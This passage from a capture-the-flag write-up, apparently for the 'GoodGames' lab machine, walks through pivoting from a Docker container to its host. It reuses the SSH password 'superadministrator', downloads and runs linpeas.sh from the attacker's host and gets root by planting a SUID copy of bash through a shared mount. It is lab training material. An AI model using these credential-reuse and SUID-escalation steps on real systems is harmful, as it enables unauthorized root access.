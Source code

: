 ```bash
```
We found out that the port 22 is open for the machine's localhost. Trying password reuse, let's connect with credentials: `augustus:superadministrator`:
```bash
root@3a453ab39d3d:/tmp# ssh augustus@172.19.0.1
root@3a453ab39d3d:/tmp# ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: # superadministrator
augustus@GoodGames:~$ whoami
augustus
augustus@GoodGames:~$ hostname -I
10.10.11.130 172.19.0.1 172.17.0.1 dead:beef::250:56ff:feb9:8b15 
```
We successfully pivoted to the host machine. Now, we are able to perform the privesc.

### Obtaining root shell
First thing we need to try:
```bash
augustus@GoodGames:~$ sudo -l
-bash: sudo: command not found
augustus@GoodGames:~$ cat /etc/sudoers
cat: /etc/sudoers: No such file or directory
```
Meaning sudo is not installed in this machine. Let's try enumerating the suid permissions:
```bash
augustus@GoodGames:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/su
```
Nothing of use, we can run linpeas.sh to enumerate vulnerabilities:
```bash
augustus@GoodGames:~$ wget 10.10.16.2:4444/linpeas.sh
augustus@GoodGames:~$ chmod +x linpeas.sh
augustus@GoodGames:~$ ./linpeas.sh
```
Nothing of use here. But remembering how the folder `/home/augustus/` is mounted on the docker, we could use the `root privileges` we have on the docker to try to modify `/bin/bash` to have the `suid` pemrmission:
```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/home/augustus# chown root bash
root@3a453ab39d3d:/home/augustus# chmod +s bash
root@3a453ab39d3d:/home/augustus# ls -la bash
-rwsr-sr-x 1 root 1000 1234376 Jun  4 19:04 bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1\'s password: # superadministrator
augustus@GoodGames:~$ ls -la bash 
-rwsr-sr-x 1 root augustus 1234376 Jun  4 20:04 bash
augustus@GoodGames:~$ ./bash -p
```